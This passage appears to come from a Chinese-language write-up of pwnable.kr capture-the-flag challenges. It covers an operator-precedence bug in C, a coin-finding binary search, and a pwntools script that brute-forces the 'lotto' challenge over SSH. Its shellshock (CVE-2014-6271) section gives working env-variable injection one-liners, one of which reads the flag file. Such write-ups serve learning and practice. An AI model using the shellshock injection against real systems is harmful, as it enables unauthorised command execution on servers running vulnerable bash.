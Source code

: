         char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
  }
  ```
* 运算符优先级错误


### 10 
* ```c
  #include <stdio.h>
  int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
  }
  ```
* 破壳漏洞 CVE-2014-6271：GNU Bash 4.3 及之前版本在评估某些构造的环境变量时存在安全漏洞，向环境变量值内的函数定义后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行 Shell 命令。某些服务和应用允许未经身份验证的远程攻击者提供环境变量以利用此漏洞。此漏洞源于在调用 Bash Shell 之前可以用构造的值创建环境变量。这些变量可以包含代码，在 Shell 被调用后会被立即执行。
* `env x='() { :;}; echo; echo vulnerable' ./bash -c :`
* `env x='() { :;}; /bin/cat flag' ./shellshock`

### 11 coin1
* 在很多正常硬币中找特殊硬币，2^尝试次数一定大于给的硬币总数。
* 使用二分法即可

### 12 lotto
* ```python
  from pwn import *
  s = ssh(host='pwnable.kr', user='lotto', password='guest', port=2222)
  payload = b'!!!!!!'
  sh = s.process('./lotto')
  for i in range(200):
      sh.recv()
      sh.sendline(b'1')
      sh.recv()
      sh.sendline(payload)
      sh.recvlines(2)
  sh.close()
  s.close()
  ```
  ```
